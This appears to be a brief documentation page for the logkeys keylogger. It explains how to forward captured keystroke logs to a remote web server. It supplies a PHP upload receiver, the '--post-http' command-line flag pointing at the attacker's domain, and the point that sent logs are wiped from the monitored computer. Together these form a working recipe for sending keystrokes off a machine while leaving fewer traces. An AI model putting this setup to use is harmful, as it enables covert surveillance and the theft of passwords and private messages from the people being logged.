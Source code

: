 ![warning](./docs_warning.png)

# Post to HTTP #
A sample implementation:

1. Get some [PHP web hosting](http://www.google.com/search?q=free+web+hosting), and get a [domain name](http://www.getfreedomain.name/).

2. Upload the following PHP script, name it "upload.php"
```
<?php

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
  
  $file = $_FILES['file'];
  
  if ($file['error'] === UPLOAD_ERR_OK) 
    move_uploaded_file($file['tmp_name'], 'new.log');
}

?>
```

3. Run logkeys with `--post-http=http://your.doma.in/upload.php` and it will upload log to specified URL every once it reaches `--post-size` in size (default 500KB). Note, the script above will overwrite "new.log" file every time. Also note that once the log is successfully sent, it is wiped from the monitored computer.
